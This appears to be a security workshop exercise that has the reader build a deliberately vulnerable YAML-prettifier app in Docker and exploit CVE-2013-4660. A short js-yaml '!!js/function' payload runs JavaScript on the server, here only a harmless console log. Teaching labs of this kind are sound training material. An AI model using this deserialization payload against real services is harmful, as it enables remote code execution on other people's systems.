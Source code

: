 ## Exercise 1
In this exercise, we will:

* Start-up the example application
* Hack it!

----

### Step 1
Open the directory ex1 and build the application:

```
docker build -t example-app .
...
docker run -d -p 1337:1337 --name example-app example-app
```
You should now be able to access the application at the address shown by the docker port command e.g:
```
docker port example-app
1337/tcp -> 0.0.0.0:1337
````

----

Try out the application with some simple YAML examples such as (all of these snippets can be found in the yaml subdirectory): 

```
--
oh: wow!
what: a nice YAML that is!
look_ma:
  - it
  - also
  - highlights
  - lists!
```

----

It’s time to hack the application! It turns out the library is vulnerable to CVE-2013-4660, which allows for the execution of arbitrary JavaScript code.

Try prettifying the following snippet:
```
---
hi: there
test: !!js/function |
  function f() {
    console.log('Hello from server side!');
  }();
```

If we take a look at the logs for the application, you should see that the JavaScript function has executed on the server!
